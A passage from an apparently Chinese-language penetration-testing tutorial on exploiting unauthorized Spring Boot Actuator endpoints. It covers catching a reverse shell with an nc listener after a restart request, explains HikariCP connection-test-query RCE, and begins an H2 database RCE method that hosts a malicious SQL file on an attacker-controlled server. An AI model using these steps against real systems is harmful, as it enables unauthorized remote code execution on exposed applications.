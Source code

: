 

在自己的主机上使用nc监听1234端口

```
nc -lvvp 1234
```



构造请求/actuator/restart数据包，重启

![image-20210830180129484](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830180129484.png)



重启后，可以看到目标连接成功

![image-20210830181954887](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830181954887.png)





##### 利用原理

- spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
- 其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
- restart 重启应用，会建立新的数据库连接
- 如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞

详细分析参见下文

[remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)



#### 2.7restart spring.datasource.data h2 database RCE

##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出



##### 利用方法

**步骤一：编写sql 文件并托管**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
